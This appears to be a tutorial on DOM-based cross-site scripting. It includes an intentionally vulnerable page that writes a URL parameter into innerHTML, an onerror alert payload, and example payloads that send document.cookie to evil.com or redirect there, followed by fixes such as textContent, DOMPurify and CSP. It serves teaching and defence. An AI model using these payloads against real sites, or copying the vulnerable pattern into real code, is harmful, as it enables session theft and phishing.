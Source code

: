 # **DOM-Based XSS Attack Demo & Tutorial**  

## **⚠️ Important Note**  
This demo is for **educational purposes only**. Never test XSS on websites without permission—it’s illegal and unethical. Use a local test environment instead.  

---

## **Step 1: Create a Vulnerable HTML Page**  
We’ll make a simple page that takes a URL parameter and dynamically writes it to the DOM without sanitization.  

### **File: `vulnerable.html`**  
```html
<!DOCTYPE html>
<html>
<head>
    <title>DOM XSS Demo</title>
</head>
<body>
    <h1>Welcome to the XSS Demo!</h1>
    <p>This page is vulnerable to DOM-based XSS.</p>

    <div id="output"></div>

    <script>
        // Extract URL parameter (unsafely)
        const urlParams = new URLSearchParams(window.location.search);
        const userInput = urlParams.get('input');

        // Dangerously inject into the DOM (VULNERABLE)
        document.getElementById('output').innerHTML = userInput;
    </script>
</body>
</html>
```

---

## **Step 2: Triggering the XSS Attack**  
Since the page takes `input` from the URL and directly injects it into `innerHTML`, an attacker can craft a malicious link.  

### **Malicious URL Example**  
```
http://localhost/vulnerable.html?input=<img src="x" onerror="alert('XSS Attack!')">
```
When a victim opens this link:  
1. The browser reads `input=<img src="x" onerror="alert('XSS Attack!')">` from the URL.  
2. The vulnerable script injects this into `innerHTML`.  
3. The `<img>` tag fails to load (`src="x"` is invalid), triggering the `onerror` script.  
4. The `alert()` executes, proving the XSS vulnerability.  

### **More Dangerous Payloads**  
Instead of just an `alert()`, an attacker could:  
- Steal cookies:  
  ```javascript
  <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
  ```
- Redirect to a phishing site:  
  ```javascript
  <script>window.location='https://evil.com'</script>
  ```

---

## **Step 3: Fixing the Vulnerability**  
To prevent DOM XSS, **never** directly inject untrusted input into the DOM. Instead:  

### **1. Use `textContent` Instead of `innerHTML`**  
```javascript
document.getElementById('output').textContent = userInput;  // Safe (no HTML parsing)
```

### **2. Sanitize Input with `DOMPurify`**  
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.5/purify.min.js"></script>
<script>
    const cleanInput = DOMPurify.sanitize(userInput);
    document.getElementById('output').innerHTML = cleanInput;  // Safe
</script>
```

### **3. Use a Content Security Policy (CSP)**  
Add this `<meta>` tag to block inline scripts:  
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```

---

## **Final Thoughts**  
DOM-based XSS is dangerous because it **doesn’t involve the server**, making it harder to detect with traditional security tools.  

### **Key Takeaways:**  
✅ **Never trust user input** (URLs, forms, cookies).  
✅ **Avoid `innerHTML`** for dynamic content—use `textContent` or `DOMPurify`.  
✅ **Use CSP headers** to block unauthorized scripts.  

